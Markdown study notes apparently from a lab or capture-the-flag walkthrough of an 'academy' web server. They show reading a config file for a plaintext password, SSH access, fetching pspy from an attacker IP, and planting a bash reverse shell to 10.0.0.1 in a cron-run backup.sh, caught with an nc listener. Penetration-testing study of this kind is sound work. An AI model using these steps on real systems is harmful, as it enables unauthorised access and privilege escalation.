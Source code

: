 ```bash
#after finished, look for RED according to legend
```
- red and yellow **** looks juicy, copy it >> this looks like an interesting file to check
	- `/home/grimmie/back.sh`
- config files > config.php `/var/www/html/academy/includes/config.php`
- passwords > copy and paste relevant ones 
	- mysql
- `cat` the config.php file
	- can see user `grimmie`
	- can see pass `My_V3ryS3cur3_P4ss`
	- see its a sql db
- can cat /etc/passwd to check all users on machine
	- >>can see grimmie on list

Try out user `grimmie`
```bash
ssh grimmie@192.168.138.129 #ssh into webserver as user
#paste password 

sudo -l #heath always checks sudo, no sudo available
#remember interesting file: `/home/grimmie/back.sh`

cd /home/grimmie
ls
cat backup.sh #this looks like periodic backups of the server
```

if nothing is in cron `crontab -l` , `crontab -u root -l` , `crontab -e`
try `systemctl list-timer` to see if any scripts are running processes
to check validation that things are running timer, can use tool `pspy`
#### pspy
https://github.com/DominicBreuker/pspy
- download 64bit version >> may get placed in downloads folder, will need to move transfer directory to run from there
```bash
mv Downloads/pspy64 transfer/pspy64
```
Back in web server grimmie shell
```bash
cd /tmp
wget [your attacker IP]/pspy64 #putting pspy 64 onto webserver from transfer directory 
ls #check
chmod +x pspy64 #make executable
./pspy64 #run script
#will show all processes running on machine >>> can confirm that backup.sh is running

cd /home/grimmie/
#google bash reverse shell one liner >> will place this in backup.sh >> bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
bash reverse shell one liner: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Back in kali
```bash
##open your txt editor, need to change script IP (to attacker IP) and port (optional)
nc -nvlp 8081 #set to assigned port in script
```
Back in grimmie
```bash
nano backup.sh
#delete lines (ctrl K)
#paste edited reverse shell one liner
#check back in kali nc/listener
```
Back in kali
```bash
```